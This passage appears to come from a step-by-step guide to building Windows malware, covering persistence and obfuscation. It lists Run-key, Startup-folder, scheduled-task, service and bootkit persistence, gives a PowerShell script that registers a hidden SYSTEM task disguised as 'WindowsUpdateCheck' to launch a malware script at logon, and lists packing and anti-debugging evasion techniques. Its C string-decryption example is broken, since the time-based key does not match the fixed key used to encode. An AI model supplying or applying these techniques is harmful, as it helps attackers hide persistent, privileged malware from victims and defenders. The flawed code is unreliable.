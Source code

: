 - **Techniques**:
  - **Registry**: Add to `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run` via RegSetValueEx; use `HKCU` for user-level.
  - **Startup Folders**: Drop symlink in `%APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup`.
  - **Scheduled Tasks**: `schtasks /create /tn "Updater" /tr "malware.exe" /sc onlogon` with SYSTEM privileges.
  - **Services**: Install via `sc create` with binary path obfuscated.
  - **Bootkit**: Hook SSDT for kernel-level hiding (advanced, requires driver signing bypass via Test Mode).

- **Example (PowerShell Scheduled Task Creation)**:
  ```powershell
  $taskName = "WindowsUpdateCheck"
  $action = New-ScheduledTaskAction -Execute "powershell.exe" -Argument "-WindowStyle Hidden -Command & {malware.ps1}"
  $trigger = New-ScheduledTaskTrigger -AtLogOn
  $principal = New-ScheduledTaskPrincipal -UserId "SYSTEM" -LogonType ServiceAccount -RunLevel Highest
  Register-ScheduledTask -TaskName $taskName -Action $action -Trigger $trigger -Principal $principal -Force
  ```

#### 7. Obfuscate and Pack the Malware

Evade static analysis with multi-layer obfuscation.

- **Techniques**:
  - **String Encryption**: XOR with dynamic keys derived from system time.
  - **Control Flow Flattening**: Use switch-based dispatchers to obscure logic.
  - **Packing**: UPX 4.0 for compression; custom crypters with VMProtect-like virtualization.
  - **Anti-Debugging**: Check `IsDebuggerPresent()`, timing delays (RDTSC), or hardware breakpoints via DRx registers.
  - **Dead Code Insertion**: Junk instructions to inflate entropy.

- **Expanded Example (Dynamic XOR String Decryption in C)**:
  ```c
  #include <stdio.h>
  #include <string.h>
  #include <time.h>

  char* decrypt_string(char* enc_str, size_t len) {
      unsigned char key = (unsigned char)(time(NULL) % 256);  // Dynamic key
      for (size_t i = 0; i < len; i++) {
          enc_str[i] ^= key;
      }
      return enc_str;
  }

  int main() {
      char enc_msg[] = {0x48 ^ 0x55, 0x65 ^ 0x55, 0x6C ^ 0x55, 0x6C ^ 0x55, 0x6F ^ 0x55, 0x00};  // "Hello" XOR 0x55
      decrypt_string(enc_msg, strlen((char*)enc_msg));
      printf("Decrypted: %s\n", enc_msg);
      return 0;
  }
  ```
